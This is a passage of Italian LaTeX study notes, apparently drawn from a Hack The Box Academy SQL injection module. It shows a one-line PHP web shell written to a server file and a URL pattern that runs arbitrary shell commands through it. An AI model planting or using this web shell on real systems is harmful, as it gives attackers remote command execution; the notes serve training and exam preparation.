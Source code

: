 \documentclass[12pt,a4paper]{report}
\begin{document}
	\subsubsection{Generare una Shell}
	Posto che abbiamo detto che probabilmente casi del genere non ci capiteranno mai in esame, il corso di HTB propone un ultima cosa, ovvero di scrivere in un file PHP la seguente stringa:
	\begin{lstlisting}[language=PHP]
		<?php system($_REQUEST[0]); ?>
	\end{lstlisting}
	Questo, posto come nell'esempio di Load\_File() di conoscere il path dove vengono salvate le pagine del webserver, permette di lanciare qualsiasi comando shell mediante un URL del tipo:
	\begin{lstlisting}[language=bash]
		http://SERVER_IP:PORT/shell.php?0=COMANDO
	\end{lstlisting}
	\begin{nota}
		Lo '0=' prima del comando è perchè la shell prende come input il parametro 0.
	\end{nota}
	
	\begin{nota}
		La fonte di gran parte di queste logiche è il modulo HTB: \url{https://academy.hackthebox.com/app/module/33}. Sono state tralasciate in questa guida le sezioni relative all'uso avanzato di Burp Suite in quanto non strettamente necessarie per le tempistiche d'esame.
	\end{nota}
	
\end{document}
